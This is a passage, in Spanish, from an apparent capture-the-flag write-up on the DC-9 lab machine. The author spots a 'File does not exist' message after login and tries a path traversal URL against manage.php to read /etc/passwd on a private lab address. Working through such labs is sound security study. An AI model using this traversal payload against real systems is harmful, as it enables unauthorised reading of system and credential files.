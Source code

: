 Tras iniciar sesión observamos un apartado en la parte inferior de la pagina que dice File does not exist, parece que intenta cargar un archivo pero no existe, esto me hace pensar que puede que este buscando un archivo en alguna ruta del sistema por lo que pruebo lo siguiente.

![Untitled](DC-9%205a1a383f004f41a7b065312771f311ab/Untitled%2011.png)

```bash
http://192.168.34.5/manage.php?file=../../../../../../../etc/passwd
```

![Untitled](DC-9%205a1a383f004f41a7b065312771f311ab/Untitled%2012.png)
